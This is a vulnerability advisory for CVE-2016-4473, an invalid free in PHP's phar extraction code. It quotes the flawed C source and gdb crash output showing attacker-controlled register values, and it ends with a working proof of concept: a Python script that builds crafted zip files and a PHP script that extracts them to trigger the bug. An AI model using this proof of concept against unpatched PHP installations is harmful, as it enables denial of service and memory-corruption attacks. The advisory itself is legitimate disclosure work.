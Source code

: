 #+title: CVE-2016-4473: php: invalid free in phar_extract_file()
#+author: Hans Jerry Illikainen
#+email: hji@dyntopia.com

An invalid free (assigned CVE-2016-4473) may occur under certain
conditions when processing phar-compatible archives in php 5.6.22, 7.0.7
and git head:

php-7.0.7/ext/phar/phar_object.c
#+begin_src c
4063 static int phar_extract_file(zend_bool overwrite, phar_entry_info *entry, char *dest, int dest_len, char **error) /* {{{ */
4064 {
....
4071     cwd_state new_state;
....
4084     new_state.cwd = (char*)emalloc(2);                                                                               // (ref:1)
4085     new_state.cwd[0] = DEFAULT_SLASH;
4086     new_state.cwd[1] = '\0';
4087     new_state.cwd_length = 1;
4088     if (virtual_file_ex(&new_state, entry->filename, NULL, CWD_EXPAND) != 0 ||
4089             new_state.cwd_length <= 1) {
....
4099     }
....
4163
4164     if (FAILURE == php_stream_stat_path(fullpath, &ssb)) {
4165         if (entry->is_dir) {
4166             if (!php_stream_mkdir(fullpath, entry->flags & PHAR_ENT_PERM_MASK,  PHP_STREAM_MKDIR_RECURSIVE, NULL)) { // (ref:2)
....
4169                 free(new_state.cwd);                                                                                 // (ref:3)
....
4171             }
4172         } else {
4173             if (!php_stream_mkdir(fullpath, 0777,  PHP_STREAM_MKDIR_RECURSIVE, NULL)) {                              // (ref:4)
....
4176                 free(new_state.cwd);                                                                                 // (ref:5)
....
4178             }
4179         }
4180     }
....
4246 }
#+end_src

~new_state.cwd~ is initially allocated through the internal zend
allocator in ([[(1)]]) and is later reallocated as the file path is resolved
in ~virtual_file_ex~:

php-7.0.7/Zend/zend_virtual_cwd.c
#+begin_src c
1178 CWD_API int virtual_file_ex(cwd_state *state, const char *path, verify_path_func verify_path, int use_realpath) /* {{{ */
1179 {
....
1336     if (verify_path) {
....
1342         tmp = erealloc(state->cwd, state->cwd_length+1);
....
1349         state->cwd = (char *) tmp;
1350
1351         memcpy(state->cwd, resolved_path, state->cwd_length+1);
....
1360     } else {
....
1362         tmp = erealloc(state->cwd, state->cwd_length+1);
....
1369         state->cwd = (char *) tmp;
1370
1371         memcpy(state->cwd, resolved_path, state->cwd_length+1);
....
1373     }
....
1379 }
#+end_src

However, should ~php_stream_mkdir~ fail in ([[(2)]]) or ([[(4)]]), ~cwd~ is
freed by the underlying libc allocator in ([[(3)]]) or ([[(5)]]).

On FreeBSD (ie. jemalloc) with mkdir() failing due to a directory
already existing as a regular file:

#+begin_src sh
$ python mkzip.py
$ gdb711 --args php phar.php out/ 1.zip 2.zip
(gdb) r
Starting program: /usr/home/php/php/bin/php phar.php out/ 1.zip 2.zip

Warning: PharData::extractTo(): Not a directory in /usr/home/php/phar.php on line 14

Program received signal SIGBUS, Bus error.
0x00000008025bde2c in __jemalloc_arena_dalloc_bin_locked (arena=<optimized out>, chunk=<optimized out>, ptr=<optimized out>, mapelm=<optimized out>) at jemalloc_arena.c:1717

1717        bin->stats.allocated -= size;

(gdb) bt
#0  0x00000008025bde2c in __jemalloc_arena_dalloc_bin_locked (arena=<optimized out>, chunk=<optimized out>, ptr=<optimized out>, mapelm=<optimized out>) at jemalloc_arena.c:1717
#1  0x00000008025be1cf in __jemalloc_arena_dalloc_bin (chunk=<optimized out>, pageind=<optimized out>, mapelm=<optimized out>, arena=<optimized out>, chunk=<optimized out>, ptr=<optimized out>, pageind=<optimized out>, mapelm=<optimized out>) at jemalloc_arena.c:1733
#2  __jemalloc_arena_dalloc_small (arena=0x4343434343434341, chunk=0x803800000, ptr=0x0, pageind=<optimized out>) at jemalloc_arena.c:1749
#3  0x00000008025c99c5 in __jemalloc_arena_dalloc (arena=<optimized out>, chunk=<optimized out>, ptr=<optimized out>, try_tcache=<optimized out>, arena=<optimized out>, chunk=<optimized out>, ptr=<optimized out>, try_tcache=<optimized out>) at /usr/src/lib/libc/../../contrib/jemalloc/include/jemalloc/internal/arena.h:1005
#4  __jemalloc_idallocx (ptr=<optimized out>, try_tcache=<optimized out>, ptr=<optimized out>, try_tcache=<optimized out>) at /usr/src/lib/libc/../../contrib/jemalloc/include/jemalloc/internal/jemalloc_internal.h:913
#5  __jemalloc_iqallocx (ptr=<optimized out>, try_tcache=<optimized out>, ptr=<optimized out>, try_tcache=<optimized out>) at /usr/src/lib/libc/../../contrib/jemalloc/include/jemalloc/internal/jemalloc_internal.h:932
#6  __jemalloc_iqalloc (ptr=<optimized out>) at /usr/src/lib/libc/../../contrib/jemalloc/include/jemalloc/internal/jemalloc_internal.h:939
#7  __free (ptr=0x803879060) at jemalloc_jemalloc.c:1277
#8  0x0000000000762b93 in phar_extract_file (overwrite=0 '\000', entry=0x803870540, dest=0x803861018 "out/", dest_len=4, error=0x7fffffffc188) at /home/php/php-7.0.7/ext/phar/phar_object.c:4176
#9  0x0000000000762455 in zim_Phar_extractTo (execute_data=0x803813250, return_value=0x8038131f0) at /home/php/php-7.0.7/ext/phar/phar_object.c:4373
#10 0x0000000000b19529 in ZEND_DO_FCALL_SPEC_HANDLER (execute_data=0x803813030) at Zend/zend_vm_execute.h:842
#11 0x0000000000ad22a4 in execute_ex (ex=0x803813030) at Zend/zend_vm_execute.h:417
#12 0x0000000000ad2da5 in zend_execute (op_array=0x80387b000, return_value=0x0) at Zend/zend_vm_execute.h:458
#13 0x0000000000a28609 in zend_execute_scripts (type=8, retval=0x0, file_count=3) at /home/php/php-7.0.7/Zend/zend.c:1427
#14 0x0000000000951045 in php_execute_script (primary_file=0x7fffffffe868) at /home/php/php-7.0.7/main/main.c:2494
#15 0x0000000000c07896 in do_cli (argc=5, argv=0x7fffffffeb48) at /home/php/php-7.0.7/sapi/cli/php_cli.c:974
#16 0x0000000000c06419 in main (argc=5, argv=0x7fffffffeb48) at /home/php/php-7.0.7/sapi/cli/php_cli.c:1344

(gdb) x/i $rip
=> 0x8025bde2c <__jemalloc_arena_dalloc_bin_locked+556 at jemalloc_arena.c:1717>:sub    QWORD PTR [rbx+0x38],rax

(gdb) i r
rax       0x8                   8
rbx       0x4141414141414141    4702111234474983745
rcx       0x42424243            1111638595
rdx       0x0                   0
rsi       0x4343434343434343    4846791580151137091
rdi       0x4343434343434341    4846791580151137089
rbp       0x7fffffffbd70        0x7fffffffbd70
rsp       0x7fffffffbd20        0x7fffffffbd20
r8        0x0                   0
r9        0x0                   0
r10       0x803879010           34418954256
r11       0x8028c12b0           34402472624
r12       0x0                   0
r13       0x803879000           34418954240
r14       0x8028adf44           34402393924
r15       0x8028c1250           34402472528
rip       0x8025bde2c           0x8025bde2c <__jemalloc_arena_dalloc_bin_locked+556 at jemalloc_arena.c:1717>
eflags    0x10206               [ PF IF RF ]
cs        0x43                  67
ss        0x3b                  59
ds        <unavailable>
es        <unavailable>
fs        <unavailable>
gs        <unavailable>
(gdb)
#+end_src


* mkzip.py
#+begin_src python
#!/usr/bin/python
import zipfile

fname = "AAAAAAAAxxxxBBBBCCCCCCCCxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"

with zipfile.ZipFile("1.zip", "w") as z:
    z.writestr(fname, "")

with zipfile.ZipFile("2.zip", "w") as z:
    z.writestr("%s/b/c" % fname, "")
#+end_src


* phar.php
#+begin_src php
<?php
if ($argc < 3) {
    echo "ERROR: $argv[0] dst src\n";
    exit(1);
}

if (is_dir($argv[1]) !== TRUE) {
    mkdir($argv[1]) or die("aborting...\n");
}

for ($i = 2; $i < $argc; $i++) {
    try {
        $phar = new PharData($argv[$i]);
        $phar->extractTo($argv[1]);
    } catch (Exception $e) {
        echo "NOTE: " . $e->getMessage() . "\n";
    }
}
?>
#+end_src
